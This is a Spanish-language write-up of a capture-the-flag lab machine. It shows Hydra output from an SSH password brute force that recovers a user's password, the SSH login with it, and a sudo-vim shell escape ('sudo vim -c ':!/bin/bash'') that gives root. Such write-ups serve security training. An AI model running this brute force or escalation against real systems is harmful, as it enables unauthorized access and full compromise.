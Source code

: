 ```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-07 11:03:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 7 final worker threads did not complete until end.
[ERROR] 7 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-07 11:03:38
```

Vemos que hemos obtenido las credenciales del usuario `russoski` por lo que nos conectaremos por `ssh` de la siguiente forma:

### SSH

```shell
ssh russoski@<IP>
```

Metemos como contraseña `iloveme` y veremos que estamos dentro.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for russoski on 1c1df58b0011:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on 1c1df58b0011:
    (root) NOPASSWD: /usr/bin/vim
```

Vemos que podemos ejecutar el binario `vim` como el usuario `root` por lo que haremos lo siguiente:

```shell
sudo vim -c ':!/bin/bash'
```

Info:

```
root@1c1df58b0011:/home/russoski# whoami
root
```

Con eso ya seremos el usuario `root`, por lo que habremos terminado la maquina.
